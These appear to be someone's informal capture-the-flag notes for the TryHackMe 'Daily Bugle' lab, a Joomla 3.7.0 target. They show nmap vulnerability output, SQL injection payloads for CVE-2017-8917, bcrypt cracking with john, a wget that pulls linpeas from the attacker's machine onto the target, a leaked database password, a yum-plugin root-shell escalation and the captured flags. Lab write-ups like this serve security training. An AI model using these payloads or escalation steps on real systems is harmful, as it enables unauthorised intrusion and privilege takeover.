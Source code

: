 thm - 2021_05_19 dailybugle

### Enumeration

did the standard nmap, gobuster, nikto
quite impress with this scan
sudo nmap -sV --script vuln 10.10.96.81  

|     Source: window.open(this.href,'win2','status=no,toolbar=no,scrollbars=yes,titlebar=no,menubar=no,resizable=yes,width=640,height=480,directories=no,location=no')
|_    Pages: http://10.10.96.81:80/, http://10.10.96.81:80/index.php/2-uncategorised/1-spider-man-robs-bank, http://10.10.96.81:80/index.php/2-uncategorised
| http-enum: 
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|   /robots.txt: Robots file
|   /administrator/manifests/files/joomla.xml: Joomla version 3.7.0
|   /language/en-GB/en-GB.xml: Joomla version 3.7.0
|   /htaccess.txt: Joomla!
|   /README.txt: Interesting, a readme.
|   /bin/: Potentially interesting folder
|   /cache/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /images/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|   /libraries/: Potentially interesting folder
|   /modules/: Potentially interesting folder
|   /templates/: Potentially interesting folder
|_  /tmp/: Potentially interesting folder
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
| http-vuln-cve2017-8917: 
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute aribitrary SQL commands via unspecified vectors.
|       
|     Disclosure date: 2017-05-17


### Looking at Joomla SQLi 

```
Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)

```
how do i use it?? 

pretty sure this is illegal, gonna return to learn how to exploit manually
┌──(kali㉿kali)-[~/tryhackme/dailybugle/joomblah-3]
└─$ python joomblah.py http://10.10.96.81:80    


└─$ john --format=bcrypt hash.txt --wordlist=/home/kali/Downloads/rockyou.txt                         1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:55 0.03% (ETA: 2021-05-21 10:31) 0g/s 105.0p/s 105.0c/s 105.0C/s friend1..wildchild
0g 0:00:01:21 0.05% (ETA: 2021-05-21 10:15) 0g/s 105.0p/s 105.0c/s 105.0C/s classof2010..nenas
0g 0:00:01:23 0.05% (ETA: 2021-05-21 10:13) 0g/s 105.2p/s 105.2c/s 105.2C/s alphabet..jigsaw
0g 0:00:02:49 0.10% (ETA: 2021-05-21 13:06) 0g/s 98.58p/s 98.58c/s 98.58C/s mike16..ice-cream
0g 0:00:09:22 0.25% (ETA: 2021-05-22 03:40) 0g/s 76.12p/s 76.12c/s 76.12C/s naranjo..mhines
spiderman123     (?)
1g 0:00:10:17 DONE (2021-05-19 12:39) 0.001619g/s 75.87p/s 75.87c/s 75.87C/s thebadboy..spaceship
Use the "--show" option to display all of the cracked passwords reliably
Session completed


### secure your tmp directory people 

download linpeas in tmp as it's like the only place where i got write access
sh-4.2$ cd tmp
cd tmp
sh-4.2$ wget 10.4.24.92:8000/linpeas.sh
wget 10.4.24.92:8000/linpeas.sh
--2021-05-19 13:31:08--  http://10.4.24.92:8000/linpeas.sh
Connecting to 10.4.24.92:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 341117 (333K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 15% 70.2K 4s
    50K .......... .......... .......... .......... .......... 30%  139K 2s
   100K .......... .......... .......... .......... .......... 45% 6.13M 1s
   150K .......... .......... .......... .......... .......... 60%  144K 1s
   200K .......... .......... .......... .......... .......... 75% 10.7M 0s
   250K .......... .......... .......... .......... .......... 90% 8.31M 0s
   300K .......... .......... .......... ...                  100% 9.69M=1.4s

2021-05-19 13:31:10 (231 KB/s) - 'linpeas.sh' saved [341117/341117]


sh-4.2$ ./linpeas.sh
./linpeas.sh
sh: ./linpeas.sh: Permission denied
sh-4.2$ ls -l linpeas.sh
ls -l linpeas.sh
-rw-rw-rw- 1 apache apache 341117 May 19 13:13 linpeas.sh
sh-4.2$ chmod 777 linpeas.sh
chmod 777 linpeas.sh

/var/www/html/configuration.php:        public $password = 'nv5uz9r3ZEDzVjNu';


[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$ 

[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# 

sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79


completed 20may 2021
